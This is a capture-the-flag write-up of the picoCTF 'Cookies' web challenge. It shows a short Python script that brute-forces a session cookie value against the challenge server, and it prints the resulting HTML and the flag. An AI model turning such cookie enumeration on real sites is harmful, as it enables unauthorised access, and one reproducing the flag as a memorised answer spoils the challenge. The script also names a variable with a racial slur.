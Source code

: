 ﻿# Cookies

### Flag: picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535} 


   * The Challenge is Called Cookies so Naturally First thought is that is has something to do with Web Cookies.
   * The Challenge Description provides us links to the following web-app `http://mercury.picoctf.net:17781/`

![Home Image](assets/web_home.png)
    
   - Inspecting the Dev panel we notice something very interesting, There's a Cookie called "name" with the values "-1"
   - Ok lets Explore further 

![Requests Image](assets/request_image.png)

   - Next typing the prompt on the text box gives us 2 Network Requests as seen on the image. 

   - Ok, now lets try with something random in the box

![invalid Request Image](assets/random_req_image.png) 

   - so it seems that when we search a valid string  the search sets up the name cookie redirects us to '/check' and if not it just sends us back to the home page
   - We need to Find the valid cookie value for the flag, 
   - This Code Prints the Html oF the page with the flag. 

```py
    import requests
    for i in range(100):
        print(i) #debugging
        changed_values = f"name={i}"
        niga={'Cookie': changed_values}


        r=requests.get("http://mercury.picoctf.net:17781/check",headers=niga)

        if "picoCTF" in r.text:
            print(r.text)
            break
```

   - Gives output as

```
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```




   - looking through the html we get the flag. 

